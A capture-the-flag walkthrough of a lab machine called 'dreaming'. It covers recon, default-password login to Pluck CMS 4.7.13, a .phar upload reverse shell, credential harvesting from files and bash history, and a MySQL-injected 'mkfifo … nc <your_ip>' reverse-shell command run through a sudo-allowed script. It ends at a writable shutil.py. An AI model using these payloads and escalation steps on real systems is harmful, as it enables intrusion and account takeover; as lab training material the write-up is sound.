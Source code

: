 I always start with a ping to see that I have a connection to the machine and also figure out the OS of the machine.
```
sudo ping -c4 10.10.116.166
PING 10.10.116.166 (10.10.116.166) 56(84) bytes of data.
64 bytes from 10.10.116.166: icmp_seq=1 ttl=63 time=89.3 ms
64 bytes from 10.10.116.166: icmp_seq=2 ttl=63 time=86.3 ms
64 bytes from 10.10.116.166: icmp_seq=3 ttl=63 time=84.3 ms
64 bytes from 10.10.116.166: icmp_seq=4 ttl=63 time=103 ms

--- 10.10.116.166 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3005ms
rtt min/avg/max/mdev = 84.333/90.641/102.610/7.131 ms
```
 
I then like to do a basic Nmap scan of all ports. Using sudo makes Nmap default to "Stealth scan".  
Machines rated "easy" rarely require scanning of all ports, but I like to scan them to ensure I'm not missing anything.  
```
sudo nmap -p- 10.10.116.166
Starting Nmap 7.94SVN ( https://nmap.org ) 
Nmap scan report for 10.10.116.166
Host is up (0.086s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 301.79 seconds
```
 
So there are SSH and HTTP server ports open so let's look at them next in more depth. 
```
sudo nmap -sVC -p22,80 10.10.116.166
Starting Nmap 7.94SVN ( https://nmap.org )
Nmap scan report for 10.10.116.166
Host is up (0.098s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 76:26:67:a6:b0:08:0e:ed:34:58:5b:4e:77:45:92:57 (RSA)
|   256 52:3a:ad:26:7f:6e:3f:23:f9:e4:ef:e8:5a:c8:42:5c (ECDSA)
|_  256 71:df:6e:81:f0:80:79:71:a8:da:2e:1e:56:c4:de:bb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.45 seconds
```
 
HTTP server is only the default Apache page. Let's find some directories. My default is feroxbuster but gobuster or fuff are also good.
```
feroxbuster -u http://10.10.116.166

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.116.166
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.10.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
403      GET        9l       28w      278c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404      GET        9l       31w      275c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
301      GET        9l       28w      312c http://10.10.116.166/app => http://10.10.116.166/app/
301      GET        9l       28w      325c http://10.10.116.166/app/pluck-4.7.13 => http://10.10.116.166/app/pluck-4.7.13/
200      GET       15l       74w     6147c http://10.10.116.166/icons/ubuntu-logo.png
200      GET      375l      964w    10918c http://10.10.116.166/
[####################] - 74s    30007/30007   0s      found:4       errors:1
[####################] - 74s    30000/30000   404/s   http://10.10.116.166/
[####################] - 0s     30000/30000   138889/s http://10.10.116.166/app/ => Directory listing
```
 
There is `/app` which then has `/pluck-4.7.13`. The site has two links at the bottom. Another is to `www.pluck-cms.org` which redirects to the GitHub page of Pluck CMS and the other to an admin login page.  
The Login page only requires a password so I tried the most obvious one and got in. The password was the documented default one.  
The pluck CMS version is 4.7.13 so I searched vulnerabilities for in that version from searchsploit.  
```
searchsploit pluck 4.7.13
-------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                  |  Path
-------------------------------------------------------------------------------- ---------------------------------
Pluck CMS 4.7.13 - File Upload Remote Code Execution (Authenticated)            | php/webapps/49909.py
-------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
 
There seems to be a file upload vulnerability. Looking at it a bit deeper reveals that the vulnerability is related to pluck CMS not blocking .phar extension.  
I used `PHP Ivan Sincek` from `https://www.revshells.com/` to create a reverse shell with .phar extension which I can upload to the admin page.  
The upload is successful and the panel gives us a handy link for the file so we don't even have to search for it. Let's then start ncat listener before going to the link and executing it.  
```
ncat -lvnp 1234
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
Ncat: Listening on [::]:1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.116.166:41598.
SOCKET: Shell has connected! PID: 39496
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
 
I checked if the machine has python3 installed to get a better, interactive shell. 
```
which python3
/usr/bin/python3
python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL-Z
stty raw -echo && fg
```
 
I could not find anything of interest in the directories I landed to and then went to look in the home folders of the other users.  
There was nothing of interest in the `/home/lucien` folder that I could read. In the `/opt` directory on the other hand were two files that I could read.  
The file owned by lucien has a cleartext password that lets me SSH into the machine or optionally just use `su lucien`.   
Now we can read the `lucien_flag.txt`

Having the password of the user I want to see if the user can run commands as root or as another user.  
```
sudo -l
Matching Defaults entries for lucien on dreaming:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lucien may run the following commands on dreaming:
    (death) NOPASSWD: /usr/bin/python3 /home/death/getDreams.py
```   
    
The file with the same name is in the `/opt` directory so let's look at that. The script connects as `death` user to the MySQL server, fetches data, and then prints it out using a shell command.  
The script in `/home/death/getDreams.py` has credentials but we can't read it. There might be credentials for the database somewhere. `lucien` has bash history on so let's look at that.  

There are a few commands in the history but one was used to log into the mysql and has a password in it. Let's test that.  
```
mysql -u lucien -p
Enter password:
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 10
Server version: 8.0.35-0ubuntu0.20.04.1 (Ubuntu)

Copyright (c) 2000, 2023, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>
```
    
It works so then we can try to input code into the MySQL database and see if the script executes it.  
`show databases;` shows us the databases in MySQL.  
`use library;` to use the `library` database.  
`show tables;` to show the tables in the selected database.  
`select * from dreams;` to show everything from the tables.  
`Insert into dreams (dreamer,dream) values ("test1","test2");` we can test that we can input into the columns. Use `select * from dreams;` again to check that the data was successfully inserted into the table.   
`insert into dreams (dreamer,dream) values ("pwned","rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc <your_ip> <listening_port> >/tmp/f");` to insert our reverse shell to the table.   

Again starting an ncat listener for the port specified in the reverse shell. Then I can execute the python script as `death`.  
```
sudo -u death /usr/bin/python3 /home/death/getDreams.py
Alice + Flying in the sky

Bob + Exploring ancient ruins

Carol + Becoming a successful entrepreneur

Dave + Becoming a professional musician

test1 + test2

```
```
ncat -lvnp 1235
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
Ncat: Listening on [::]:1235
Ncat: Listening on 0.0.0.0:1235
Ncat: Connection from 10.10.116.166:36264.
death@dreaming:/home/lucien$
```

Now I'm in as `death` and have access to `/home/death/death_flag.txt`. I also checked the `/home/death/getDreams.py` for the MySQL password and then checked if the password is valid for the user account(it is).  
I could not find anything other interesting in `death`s folder and then headed to `morpheus`s folder.  
There is a Python script that backups `/home/morpheus/kingdom` to `/kingdom_backup/kingdom` and it uses `copy2` from `shutil` to do that.  

I checked if the script was in a cronjob somewhere with the program called `pspy` that I uploaded to the machine.  
The script seems to execute every minute.  
```
2024/01/04 12:46:01 CMD: UID=0     PID=67444  | /usr/sbin/CRON -f
2024/01/04 12:46:01 CMD: UID=1002  PID=67445  | /usr/sbin/CRON -f
2024/01/04 12:46:01 CMD: UID=1002  PID=67446  | /bin/sh -c /usr/bin/python3.8 /home/morpheus/restore.py
2024/01/04 12:47:01 CMD: UID=0     PID=67447  | /usr/sbin/CRON -f
2024/01/04 12:47:01 CMD: UID=1002  PID=67448  | /usr/sbin/CRON -f
2024/01/04 12:47:01 CMD: UID=1002  PID=67449  | /bin/sh -c /usr/bin/python3.8 /home/morpheu
```


shutil.py is found at `/usr/lib/python3.8/` and we seem to have permission to write to it.  
```
ls -la /usr/lib/python3.8/shutil.py
-rw-rw-r-- 1 root death 51474 Aug  7 23:52 /usr/lib/python3.8/shutil.py
```

















